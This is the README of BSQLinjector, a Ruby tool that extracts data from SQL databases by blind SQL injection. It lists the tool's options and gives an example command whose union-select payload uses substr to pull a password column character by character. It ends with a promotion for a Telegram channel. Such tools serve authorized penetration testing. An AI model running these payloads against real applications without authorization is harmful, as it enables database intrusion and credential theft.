 # BSQLinjector
BSQLinjector uses blind method to retrieve data from SQL databases. I recommend using "--test" switch to clearly see how configured payload looks like before sending it to an application.

# BSQLinjector
BSQLinjector uses blind method to retrieve data from SQL databases. I recommend using "--test" switch to clearly see how configured payload looks like before sending it to an application.

# Options:
<pre><code>
  --file	    Mandatory - File containing valid HTTP request and SQL injection point (SQLINJECT). (--file=/tmp/req.txt)
  --pattern	    Mandatory - Pattern to look for when query is true. (--pattern=truestatement)
  --prepend	    Mandatory - Main payload. (--prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password,"
  --append	    How to end our payload. For example comment out rest of SQL statement. (--append='#)
  --schar	    Character placed around chars. This character is not used while in hex mode. (--schar="'")
  --2ndfile	    File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)

  --mode	    Blind mode to use - (between - b (generates less requests), moreless - a (generates less requests by using "<", ">", "=" characters), like - l (complete bruteforce), equals - e (complete bruteforce)). (--mode=l)
  --postgres        Use postgres "for" in substring function (e.g. from 1 for 1).
  --hex		    Use hex to compare instead of characters.
  --case	    Case sensitivity.

  --ssl		    Use SSL.
  --proxy	    Proxy to use. (--proxy=127.0.0.1:8080)

  --test	    Enable test mode. Do not send request, just show full payload.
  --special	    Include all special characters in enumeration.
  --start	    Start enumeration from specified character. (--start=10)
  --max		    Maximum characters to enumerate. (--max=10)
  --timeout	    Timeout in waiting for responses. (--timeout=20)
  --only-final	    Stop showing each enumerated letter.
  --comma	    Encode comma.
  --bracket	    Add brackets to the end of substring function. --bracket="))"
  --hexspace	    Use space instead of brackets to split hex values.
  --verbose	    Show verbose messages.
</code></pre>

# Example usage:
<code><pre>  ruby ./BSQLinjector.rb --pattern=truestatement --file=/tmp/req.txt --schar="'" --prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password," --append="'#" --ssl</code></pre>

Join our telegram channel t.me/efxtv

